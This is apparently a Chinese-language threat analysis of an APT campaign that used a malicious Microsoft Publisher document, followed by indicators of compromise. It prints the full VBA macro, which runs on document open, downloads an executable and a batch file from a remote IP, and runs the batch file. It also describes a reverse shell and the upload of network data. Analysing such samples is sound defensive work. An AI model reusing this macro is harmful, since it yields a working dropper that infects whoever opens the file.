




# 载荷投递

是pub文件 进去alt+11

宏病毒拉出来

```
Private WithEvents PubApp As Publisher.Application
Sub DownloadFile()
Dim myURL As String
myURL = "http://194.33.40.177/webdav/taskhost.exe"
username = Environ("username") 

Dim WinHttpReq As Object
Set WinHttpReq = CreateObject("Microsoft.XMLHTTP")
WinHttpReq.Open "GET", myURL, False
WinHttpReq.send
If WinHttpReq.Status = 200 Then
    Set oStream = CreateObject("ADODB.Stream")
    oStream.Open
    oStream.Type = 1
    oStream.Write WinHttpReq.responseBody
    oStream.SaveToFile "C:\Users\" + username + "\Videos\taskhost.exe", 2 ' 1 = no overwrite, 2 = overwrite
    oStream.Close
End If
End Sub
Sub DownloadBat()
Dim myURL As String
username = Environ("username")
myURL = "http://194.33.40.177/webdav/status.txt"
Dim WinHttpReq As Object
Set WinHttpReq = CreateObject("Microsoft.XMLHTTP")
WinHttpReq.Open "GET", myURL, False
WinHttpReq.send
If WinHttpReq.Status = 200 Then
    Set oStream = CreateObject("ADODB.Stream")
    oStream.Open
    oStream.Type = 1
    oStream.Write WinHttpReq.responseBody
    oStream.SaveToFile "C:\Users\" + username + "\Videos\status.bat", 2 ' 1 = no overwrite, 2 = overwrite
    oStream.Close
End If
End Sub
Sub Exec()
Dim x As Variant
Dim Path As String
username = Environ("username")
Path = "C:\Users\" + username + "\Videos\status.bat"
x = Shell(Path, vbNormalFocus)
End Sub
Private Sub Document_Open()
 Set PubApp = Publisher.Application
 DownloadFile
 DownloadBat
 Exec
End Sub
```

# taskhost.exe




测试 mail.63.cn测试连通性

然后开始base64解密



三个密钥解密三次




ipconfig 获取网络配置其上传至服务器，并删除该文件。

随后通过创建创建管道向远程服务器提供反向shell。



正如我们在《猎天行动》中提到的，CNC组织部分开发人员在开发环境中集成了vcpkg。而这一特点在本次样本中得到了保留，并且本次攻击活动中使用的路径也与其以往使用的路径保持高度一致。


在南亚地区的APT攻击活动中，攻击者往往喜欢使用各类文档文件结合社会工程学诱使受害者运行恶意代码。而在本次攻击活动中虽然同样也采用了这一形式，但值得注意的是，与以往我们在文档文件中常见的doc、xls、rtf、docx、xlsm等等格式不同，本次使用的是pub文档。pub文档作为Microsoft Office PUBlisher 建立的电子出版物，在我们日常生活中并不常见，往往只有少部分人群才会接触。

本次攻击活动中选择这一文档类型作为载荷恰恰体现了攻击者在载荷上多元化的一种趋势，同样也是攻击者在除了鱼叉邮件、文档文件内容之外的又一种针对性攻击的体现。

# ioc

**附录 IOC**

**MD5:**


189e543a95ed791fc5a81a3048128703

5511b7b0b53c67d55019d13aaaf1ed15


**URL：**

http://194.33.40.177/webdav/taskhost.exe

http://194.33.40.177/webdav/status.txt


**IP：**

194.33.40.177


**PBD：**

C:\Users\user\source\repos\taskhost\x64\Release\taskhost.pdb

